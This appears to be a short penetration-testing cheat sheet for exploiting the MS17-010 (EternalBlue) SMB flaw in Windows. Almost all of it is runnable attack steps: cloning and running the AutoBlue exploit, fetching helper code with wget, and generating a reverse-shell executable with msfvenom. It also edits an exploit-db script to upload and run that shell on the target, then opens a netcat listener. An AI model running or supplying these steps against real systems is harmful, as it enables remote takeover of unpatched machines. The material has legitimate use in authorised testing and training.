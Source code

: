 ### Install dependecies
```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
cd AutoBlue-MS17-010
pip2.7 install -r requirements.txt
```

### Get semi interactive shell
```
python zzz_exploit.py <rhost>
```


### Another variant - install dependecies
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip install impacket
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

### Generate reverse shell
```
msfvenom -p windows/shell_reverse_tcp -f exe lhost=<lhost> lport=<lport> > shell.exe
```

### Adjust 42315.py (user can also be empty)
```
USERNAME = '<user>'
...
     smb_send_file(smbConn, "<path/to/local/shell.exe>", 'C', '/shell.exe')
     service_exec(conn, r'cmd /c C:\shell.exe')
```

### Start listener
```
nc -lnvp <lport>
```

### Exploit
```
python 42315.py <rhost>
```

### References
https://www.exploit-db.com/exploits/42315  

